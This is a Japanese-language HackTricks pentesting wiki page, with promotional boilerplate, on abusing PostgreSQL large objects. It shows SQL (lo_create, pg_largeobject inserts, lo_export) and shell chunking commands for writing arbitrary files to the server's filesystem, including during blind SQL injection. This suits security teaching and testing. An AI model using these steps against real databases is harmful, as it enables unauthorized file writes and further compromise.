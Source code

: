 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL 大きなオブジェクト

PostgreSQLは、**大きなオブジェクト**として知られる構造を提供しており、`pg_largeobject`テーブルを介してアクセス可能で、画像やPDF文書などの大きなデータ型を保存するために設計されています。このアプローチは、**データをファイルシステムに戻すエクスポート**を可能にするため、`COPY TO`関数よりも有利です。これにより、元のファイルの正確な複製が維持されます。

このテーブル内に**完全なファイルを保存する**ためには、`pg_largeobject`テーブルにオブジェクトを作成し（LOIDで識別される）、次にこのオブジェクトに2KBのサイズのデータチャンクを挿入する必要があります。これらのチャンクは、エクスポート機能が正しく動作するために、正確に2KBのサイズであることが重要です（最後のチャンクは例外となる可能性があります）。

**バイナリデータを2KBのチャンクに分割する**ために、次のコマンドを実行できます：
```bash
split -b 2048 your_file # Creates 2KB sized files
```
各ファイルをBase64またはHexにエンコードするには、以下のコマンドを使用できます：
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**重要**: このプロセスを自動化する際は、2KBのクリアテキストバイトのチャンクを送信することを確認してください。16進数エンコードされたファイルはサイズが倍になるため、チャンクごとに4KBのデータが必要です。一方、Base64エンコードされたファイルは、`ceil(n / 3) * 4`の式に従います。

大きなオブジェクトの内容は、デバッグ目的で次のコマンドを使用して表示できます:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

バイナリデータを保存するために、最初にLOIDが作成されます:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
精密な制御が必要な状況、例えばBlind SQL Injectionを悪用する場合、`lo_create`は固定LOIDを指定するために好まれます。

データチャンクは次のように挿入できます:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
大きなオブジェクトを使用後にエクスポートし、潜在的に削除するには：
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Using `lo_import` & Hex

`lo_import` 関数は、大きなオブジェクトのために LOID を作成し、指定するために利用できます：
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
オブジェクト作成後、データはページごとに挿入され、各チャンクが2KBを超えないようにします：
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
プロセスを完了するために、データがエクスポートされ、大きなオブジェクトが削除されます：
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### 制限事項

**大きなオブジェクトにはACL（アクセス制御リスト）がある可能性があり**、ユーザーが作成したオブジェクトへのアクセスが制限されることがあります。ただし、許可されたACLを持つ古いオブジェクトは、コンテンツの抽出に対して引き続きアクセス可能である場合があります。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
